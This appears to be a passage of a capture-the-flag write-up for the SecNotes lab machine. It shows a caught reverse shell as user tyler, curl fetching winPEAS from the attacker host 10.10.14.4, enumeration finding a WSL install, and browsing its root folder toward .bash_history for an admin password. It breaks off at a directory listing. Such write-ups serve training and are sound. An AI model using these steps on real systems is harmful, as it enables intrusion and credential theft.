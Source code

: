 ```
connect to [10.10.14.4] from (UNKNOWN) [10.10.10.97] 52405
Microsoft Windows [Version 10.0.17134.228]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\inetpub\new-site>whoami
whoami
secnotes\tyler
```
Got the user flag.
### Privilege_Escalation
```
C:\tmp>curl -o winPEASx64.exe http://10.10.14.4/winPEASx64.exe
curl -o winPEASx64.exe http://10.10.14.4/winPEASx64.exe
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100 2331k  100 2331k    0     0  2331k      0  0:00:01 --:--:--  0:00:01 4262k

C:\tmp>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 1E7B-9B76

 Directory of C:\tmp

12/09/2024  09:22 PM    <DIR>          .
12/09/2024  09:22 PM    <DIR>          ..
12/09/2024  09:22 PM         2,387,456 winPEASx64.exe
               1 File(s)      2,387,456 bytes
               2 Dir(s)  13,911,941,120 bytes free
```
###### WinPeas_WSL_Enum
```
����������͹ Looking for Linux shells/distributions - wsl.exe, bash.exe
    C:\Windows\System32\wsl.exe
    C:\Windows\System32\bash.exe

    Found installed WSL distribution(s) - listed below
    Run linpeas.sh in your WSL distribution(s) home folder(s).

    Distribution:      "Ubuntu-18.04"
    Root directory:    "C:\Users\tyler\AppData\Local\Packages\CanonicalGroupLimited.Ubuntu18.04onWindows_79rhkp1fndgsc\LocalState\rootfs"
    Run command:       wsl.exe --distribution "Ubuntu-18.04"
```
Extracting Password for the Admin User
```
C:\inetpub\new-site>cd C:\Users\tyler\AppData\Local\Packages\CanonicalGroupLimited.Ubuntu18.04onWindows_79rhkp1fndgsc\LocalState\rootfs

C:\Users\tyler\AppData\Local\Packages\CanonicalGroupLimited.Ubuntu18.04onWindows_79rhkp1fndgsc\LocalState\rootfs>cd root

C:\Users\tyler\AppData\Local\Packages\CanonicalGroupLimited.Ubuntu18.04onWindows_79rhkp1fndgsc\LocalState\rootfs\root>dir
 Directory of C:\Users\tyler\AppData\Local\Packages\CanonicalGroupLimited.Ubuntu18.04onWindows_79rhkp1fndgsc\LocalState\rootfs\root

06/22/2018  01:44 PM    <DIR>          .
06/22/2018  01:44 PM    <DIR>          ..
06/22/2018  02:09 AM             3,112 .bashrc
06/22/2018  01:41 PM               398 .bash_history
06/21/2018  05:00 PM               148 .profile
06/22/2018  01:56 AM    <DIR>          filesystem
```